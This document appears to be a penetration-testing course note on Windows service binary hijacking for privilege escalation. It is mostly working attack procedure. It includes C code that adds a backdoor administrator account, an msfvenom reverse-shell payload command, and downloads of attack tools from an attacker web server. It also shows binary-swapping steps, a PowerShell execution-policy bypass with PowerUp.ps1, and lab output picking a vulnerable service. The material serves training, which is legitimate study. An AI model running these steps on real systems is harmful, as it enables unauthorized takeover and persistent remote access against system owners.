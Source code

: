 # Service Binary Hijacking

### <mark style="background-color:purple;">List installed Windows Services</mark>

{% code overflow="wrap" %}
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
{% endcode %}

* `Get-CimInstance` - query the WMI class _win32\_service_
* interested in the name, state, and path of the binaries for each service and therefore, use `Select` with the arguments `Name`_,_ `State`, and `PathName`.
* filter out any services that are not in a Running state by using `Where-Object`

_**Binary installation locations:**_

* `C:\Windows\System32` -
* `C:\xampp\` - binaries in this directory are user-installed and software developer is in charge of dir and permissions of software
  * make it potentially prone to service binary hijacking

### <mark style="background-color:purple;">Enumerate permissions on service binaries</mark>

```powershell
icacls "C:\xampp\apache\bin\httpd.exe"
```

| Mask | Permissions             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

> Users group have the Full Access (F) permission, allowing us to write to and modify the binary and therefore, replace it.\
> must have a missing indicator (I) preceding the permission

### <mark style="background-color:purple;">Exploit Service Binaries</mark>&#x20;

**add a new user (adduser.c)**

{% code title="adduser.c" %}
```cpp
#include <stdlib.h>

int main () 
{ 
	int i;
	i = system ("net user dave2 password123! /add"); 
	i = system ("net localgroup administrators dave2 /add"); 
	return 0; 
}
prepare adduser.c:
```
{% endcode %}

`x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`

**create a reverse shell payload**

{% code overflow="wrap" %}
```shell-session
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o BackupMonitor.exe
```
{% endcode %}

<mark style="background-color:blue;">**Add exploit to Windows machine**</mark>

* <mark style="color:blue;">Download exploit from python3 webserver</mark>
* <mark style="color:blue;">move the original binary into home directory</mark>
* <mark style="color:blue;">move exploit into binary dir</mark>

{% code overflow="wrap" lineNumbers="true" %}
```powershell
iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```
{% endcode %}

_**Restart binary**_

`whoami /priv` - get list of all current user privs

* **SeShutdowPrivilege** is needed to be listed to be able to do the reboot

`net stop mysql` - stop the service

`Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}` - manually restart the service

`shutdown /r /t 0` - issue a reboot (r) in 0 seconds (/t 0)



`Get-LocalGroupMember administrators` - check if privesc worked

### <mark style="background-color:yellow;">PowerUp.ps1</mark>

automated tool to detect the priv esc vector

```powershell
PS C:\Users\dave> iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1 
PS C:\Users\dave> powershell -ep bypass 
... 
PS C:\Users\dave> . .\PowerUp.ps1 
PS C:\Users\dave> Get-ModifiableServiceFile
```

_powershell -ep bypass_ - start powershell with ExecutionPolicy Bypass. Otherwise, it won’t be possible to run scripts as they are blocked.

_Get-ModifiableServiceFile_ - displays the services the current user can modify, such as the service binary or config files

### Lab

***

```powershell
ServiceName : BackupMonitor 
Path : C:\BackupMonitor\BackupMonitor.exe 
ModifiableFile : C:\BackupMonitor\BackupMonitor.exe 
ModifiableFilePermissions : {Delete, WriteAttributes, Synchronize, ReadControl...} ModifiableFileIdentityReference : NT AUTHORITY\Authenticated Users 
StartName : .\roy 
AbuseFunction : Install-ServiceBinary -Name 'BackupMonitor' 
CanRestart : True 
Name : BackupMonitor
```

* **Modifiable Binary Path**: The service binary (`C:\BackupMonitor\BackupMonitor.exe`) was writable by `NT AUTHORITY\Authenticated Users`.
* **Service User Context**: The service runs as `.\roy`, a different (potentially more privileged) user.
* **Restart Capability**: The `CanRestart` property was `True`, allowing you to restart the service and execute the replaced binary.
* **Executable Path Exists**: The `Path` points to a valid and modifiable executable (`BackupMonitor.exe`), making it exploitable.
* **Permission Details**: Permissions such as `Delete`, `WriteAttributes`, and `Synchronize` on the binary allowed full control for payload replacement.

**BackupMonitor** was chosen because it had:

* A specific, writable binary (`C:\BackupMonitor\BackupMonitor.exe`).
* Restart capability (`CanRestart = True`).
* A different user context (`.\roy`).

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f exe -o BackupMonitor.exe` - create a reverse shell payload

\[PS]

`Get-Service -Name BackupMonitor` - verify status of the service BackupMonitor

`Start-Service -Name BackupMonitor` - starts the service BackupMonitor
